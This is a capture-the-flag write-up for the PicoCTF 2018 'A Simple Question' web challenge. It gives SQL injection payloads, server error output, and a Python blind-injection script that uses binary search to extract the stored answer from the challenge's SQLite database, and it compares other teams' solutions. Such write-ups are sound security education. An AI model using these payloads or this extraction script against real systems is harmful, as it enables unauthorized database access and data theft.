

# A Simple Question

This is a 650-point PicoCTF 2018 web exploitation problem. It had nearly 2000 solves, compared to the problems with similar point values that only had a few hundred. That indicated to me that some well-known tool was likely available that would reduce a difficult question to something easy.

### Problem Description

There is a website running at `http://2018shell.picoctf.com:2644` (link)[http://2018shell.picoctf.com:2644]. Try to see if you can answer its question.

Here's the site, and a sample query:


Submitting this query leads to


Conveniently, the authors show the SQL query that produced the results. So, let's generate a straightforward SQL injection attack:


which results in


Okay! So, I can't directly display the output of various databases, but I can tell whether a query results in a true statement ("You are so close" gets displayed), or a false statement ("Wrong" gets displayed). That means I have a blind SQL injection problem.

### Solution


#### Tool-Assisted Solution

The large number of solves for this problem suggest an automated tool, and I know of a popular one, [`SQLMap`](http://sqlmap.org/). Here's the output of running the wizard:


This exploit is drop-dead easy with the tool. `sqlmap` extracts a single table, `answer`, with an entry "41AndSixSixths". Entering that for the answer yields the solution:


No doubt the ease of this tool is why there are so many successful flag submissions for this problem. Of course, the problem with this approach is that I learn very little about how to actually perform a blind SQL injection attack.  

#### Manual Solution

I want to go back and actually perform an automated blind SQL injection attack without the aid of the tool. Let's start by enumerating the database type.

Here's some Python code to send a SQL injection to the site and return `True` or `False`:

```
import requests
url = "http://2018shell.picoctf.com:2644/answer2.php"

# send post request and return True or False based on page content
def submit_query(answer:str,
				debug:int=0) -> bool:
	data = {'answer':answer, 'debug': str(debug)}
	r = requests.post(url=url, data=data)
	print(r.text)
	if r.text.find("Wrong") != -1:
		return False
	else:
		return True
```

First, I identified that I was working with an SQLite3 database by attempting to do some fingerprinting and getting an error code back:

`print(submit_query("42' OR '1' = '1' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables --"))`

results in

```
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1' = '1' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables --'
</pre><br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, no such table: information_schema.tables in <b>/problems/a-simple-question_4_66cdb0641702e04c08c3830fa64316d2/webroot/answer2.php</b> on line <b>15</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on boolean in /problems/a-simple-question_4_66cdb0641702e04c08c3830fa64316d2/webroot/answer2.php:17
Stack trace:
#0 {main}
  thrown in <b>/problems/a-simple-question_4_66cdb0641702e04c08c3830fa64316d2/webroot/answer2.php</b> on line <b>17</b><br />
```

To confirm that it's SQLite:
```
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' UNION SELECT sqlite_version()''
</pre><h1>You are so close.</h1>
True
```

Next, I determine the number of columns in the `answers` table:

`print(submit_query("42' OR '1'='1' UNION SELECT NULL, NULL'"))`

results in

```
SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns
```

while

`print(submit_query("42' OR '1'='1' UNION SELECT NULL'"))`

results in `True`.

Next I get the number of rows in the table:
```
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 0,1 --'
</pre><h1>You are so close.</h1>
True
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 5,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 3,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 2,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 1,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 0,1 --'
</pre><h1>You are so close.</h1>
True
```

So there is just one row. (This is sort of redundant since I already knew that from `SQLMap`, but I am pretending I did not know.)

Next, I want to extract the contents of the result. To do that, I need to know the length of the string held in the `answers` table, and then determine the value of each ASCII character in the table. To do so, I wrote a function to do a binary search, which is designed to take the name of some arbitrary function that returns a boolean value, and then repeatedly call that function with different input values until the search is complete. Here's my function:

```
# The binary search function. Optionally takes an argument to pass to the function it's calling.
def binary_search(lower, upper, f, arg1=None):
	guess = floor((lower+upper)/2)
	if not f(guess, arg1):
		if lower == upper:
			return lower
		else:
			return binary_search((guess+1), upper, f, arg1)
	else:
		if lower == upper:
			return lower
		else:
			return binary_search(lower, guess, f, arg1)
```

With this function, I can determine the length of the string in the `answers` table:

```
def guess_greater_than_or_equal_to_string_length(guess, arg1=None, debug=False):
	query = "42' OR '1'='1' AND " + str(guess) + " >= length(answer);--"
	result = submit_query(query)
	if debug:
		print("Submitting query: " + str(query) + "\n")
		print("Result = " + str(result))
	return(result)

def get_answer_length():
  	answer_length = binary_search(0, 128, guess_greater_than_or_equal_to_string_length)
  	return(answer_length)
```

And I can determine the value of a specific ASCII character in the string stored in the `answers` table:

```
# Now I just need a true / false function that tests a letter.
def guess_greater_than_or_equal_to_hex_value(guess, index, debug=False):
	query = "42' OR '1'='1' AND '" + str.upper(hex(guess)[2:4]) + "' >= HEX(substr(answer," +str(index) + ",1));--"
	result = submit_query(query)
	if debug:
		print("guess = " + str(guess))
		print("Submitting query: " + str(query) + "\n")
		print("Result = " + str(result))
	return(result)

def extract_letter(index, debug=False):
  hex_letter = str(binary_search(30, 122, guess_greater_than_or_equal_to_hex_value, i))
  if debug:
  	print("hex_letter = " + hex_letter)
  return(chr(int(hex_letter,10)))
```

That's enough to get the `answer` string from the database and then the flag:

```
answer_length = get_answer_length()
print("Answer length = " + str(answer_length)) # 14, correct!
answer = ''
for i in range(1,answer_length+1):
	answer += extract_letter(i)
	print("ANSWER: " + str(answer))

print("The answer is " + answer)
#41AndSixSixths

print(submit_query("41AndSixSixths", debug=True))
```


Not bad! That was a useful learning exercise, and I am well on my way to enumerating a database with blind SQL injection using my own code. I believe I know a bit more about how `SQLMap` works now. [Here's](./)

### Comparison to Other Approaches

This write-up is pretty much along the same lines as other solutions. [shiltemann](https://github.com/shiltemann/CTF-writeups-public/tree/master/PicoCTF_2018#web-exploitation-650-a-simple-question) goes from the fact that there's an input parameter called `answer` and just goes ahead and guesses it one letter at a time. He doesn't use a binary search, he just loops through all the possible letters.

[LiUHack] thought to check the source code of the web problem first, and indeed the source code is [available](http://2018shell.picoctf.com:2644/answer2.phps)! I also liked his recognition of a potential [type juggling](./https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf) vulnerability in the PHP code (apparently not easily exploitable since the canary, "41AndSixSixths", is not easy to guess and does not start with a zero). [tcode2k16](https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/web-exploitation/#a-simple-question) uses [GLOB](https://www.tutorialspoint.com/sqlite/sqlite_glob_clause.htm) in their SQL queries. [d4rkvaibhav](https://github.com/d4rkvaibhav/picoCTF-2018-Writeups/tree/master/WEB_EXPLOITATION/A%20SIMPLE%20QUESTION) uses a technique similar to [this one](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Blind-SQL-Injection.html) to get all the characters in the canary, and then unscrambles / capitalizes them. That solution requires a bit more guesswork than the others. [Dvd848](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/A%20Simple%20Question.md) uses the following query:

```
q = "' union SELECT answer from answers where length(answer) = {} and answer like '{}%".format(guess)
```

The trouble with this approach is that he's able to brute force the lowercase equivalent of the canary, but doesn't know the casing. He eventually guesses the camel casing to get the flag. [Aperi'Kube](https://www.aperikube.fr/docs/picoctf_2018/asimplequestion/) has a nice implementation of the entire database enumeration in Python, including enumeration of the table name. I enjoyed that write-up the most. Interestingly, only this author mentioned that `SQLMap` could be used to solve the challenge -- I guess most people who solved it that way didn't bother to submit write-ups because the solution was so cheesy. [k3d4r](http://blog.iodbh.net/picoctf2018-web-a-simple-question.html) has the same approach as d4rkvaibhav, except that they use an extra Python library to color their output.

That's it. I'll probably be referring back to [Aperi'Kube](https://www.aperikube.fr/docs/picoctf_2018/asimplequestion/)'s code as a reference in the future when enumerating SQL databases in Python. Nice job!
